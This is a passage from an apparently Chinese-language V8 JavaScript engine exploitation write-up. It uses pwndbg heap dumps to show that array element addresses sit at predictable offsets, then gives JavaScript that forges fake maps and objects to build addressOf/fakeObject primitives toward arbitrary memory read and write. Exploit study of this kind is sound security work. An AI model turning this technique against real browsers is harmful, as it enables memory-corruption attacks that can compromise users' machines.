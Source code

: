 我们按照每次增长的地址空间大小去跟踪内存，发现它们存在一定的规律，对照一些资料能够大概得到这样的结论：

> 0x2f43081c0000：内存块的大小 0x2f43081c0018：内存块可用空间的起始地址 0x2f43081c0020：表示下一个内存块的地址 0x2f43081c0008：已被使用的内存大小(0x3dee8+0x2118=0x40000) 0x2f43081c0038：元数据的占用大小

再对比一下打印出来的数据信息：

```
pwndbg> job 0x2f430804999d
 - elements: 0x2f4308242119 <FixedArray[63232]> [HOLEY_SMI_ELEMENTS]
 - length: 63232
 - properties: 0x2f430800222d <FixedArray[0]>
 }
 - elements: 0x2f4308242119 <FixedArray[63232]> {
           0: 1
     1-63231: 0x2f430800242d <the_hole>
 }
 
pwndbg> job 0x2f43080499ad
 - elements: 0x2f4308282119 <FixedArray[63232]> [HOLEY_SMI_ELEMENTS]
 - length: 63232
 - properties: 0x2f430800222d <FixedArray[0]>
 }
 - elements: 0x2f4308282119 <FixedArray[63232]> {
           0: 2
     1-63231: 0x2f430800242d <the_hole>
 }
```

可以发现，两个 Array 的储存数据地址 elements 都从 **0x2119+自身堆地址** 处开始，顺序储存，这意味着我们能够通过固定的低位偏移得到这两个数据的地址信息，因此甚至不需要泄露地址也能够获取 elements 的地址

这种思路和传统的堆喷有些差别，因为它是通过开辟内存空间使得固定地址的内存可读写，而传统堆喷则是通过开辟大内存使得随机访问能够命中

### 利用思路

既然我们能够知道 Array 对象的 elements 成员地址，就能够向其中伪造数据数据，将伪造的内容装成一个对象，从而实现 addressOf 和 fakeObject，进而完成任意地址读写

首先，我们令 evil 指向一个新 Array 的 elements 中的 value ，然后在这个 Array 中布置数据进行伪造：

```javascript
	···
    for (let i = 0x0; i < 0x11; i++) {
        obj_prop_ut_fake['x' + i] = u2d(0x082c2121, 0);
    }
    ···
    var demo_array=new Array(0xf000);
    demo_ele_addr=0x82c2120;
    fake_buf=demo_ele_addr+0x200+8;
    array_map0 = itof(0x1604040408002119n);

    double_array_map_addr=demo_ele_addr+0x100;
    double_array_map_value=itof(0x0a0007ff11000834n);

    demo_array[0x100/8]=array_map0;
    demo_array[0x108/8]=double_array_map_value;

    obj_array_map_addr=demo_ele_addr+0x150;
    obj_array_map_value=itof(0x0a0007ff09000834n);

    demo_array[0x150/8]=array_map0;
    demo_array[0x158/8]=obj_array_map_value;

    demo_array[0x000/8]=u2d(obj_array_map_addr+1,0);
    demo_array[0x008/8]=u2d(fake_buf+1,0x2);
```
